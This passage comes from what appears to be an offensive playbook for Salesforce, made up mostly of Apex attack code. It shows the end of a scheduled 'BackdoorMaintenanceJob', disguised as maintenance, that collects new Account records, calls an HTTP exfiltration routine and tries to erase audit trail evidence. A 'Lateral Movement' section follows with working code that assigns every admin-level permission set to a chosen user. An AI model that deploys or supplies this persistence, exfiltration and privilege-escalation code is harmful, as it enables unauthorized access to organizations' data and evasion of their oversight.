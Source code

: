 ```apex
        // Periodic data collection logic
        List<Account> newAccounts = [SELECT Id, Name, AnnualRevenue FROM Account WHERE CreatedDate = LAST_N_DAYS:1];
        if (!newAccounts.isEmpty()) {
            // Exfiltrate new data
            HttpExfiltration.exfiltrateViaHttp();
        }
    }
    
    private void cleanAuditLogs() {
        // Attempt to clean audit trail evidence
        try {
            List<SetupAuditTrail> auditEntries = [SELECT Id FROM SetupAuditTrail WHERE CreatedBy.Username = 'maintenance@company-domain.com'];
            // Note: SetupAuditTrail records cannot be deleted, but this shows intent
        } catch (Exception e) {
            // Audit cleaning failed
        }
    }
}

// Schedule the job to run daily
System.schedule('Maintenance Job', '0 0 2 * * ?', new BackdoorMaintenanceJob());
```

**Impact**: Long-term unauthorized access, continued data compromise, persistent threat presence.

### 3. Lateral Movement

**Objective**: Techniques for expanding access within the Salesforce ecosystem.

**Permission Set Assignment for Privilege Escalation**:
```apex
public class LateralMovement {
    public static void escalatePrivileges(Id targetUserId) {
        // Find high-privilege permission sets
        List<PermissionSet> adminPermSets = [
            SELECT Id, Name 
            FROM PermissionSet 
            WHERE PermissionsModifyAllData = true 
               OR PermissionsViewAllData = true
        ];
        
        for (PermissionSet ps : adminPermSets) {
            try {
                PermissionSetAssignment psa = new PermissionSetAssignment(
                    PermissionSetId = ps.Id,
                    AssigneeId = targetUserId
                );
                insert psa;
                System.debug('Assigned permission set: ' + ps.Name);
            } catch (Exception e) {
                System.debug('Failed to assign: ' + ps.Name + ' - ' + e.getMessage());
            }
        }
    }
}
```
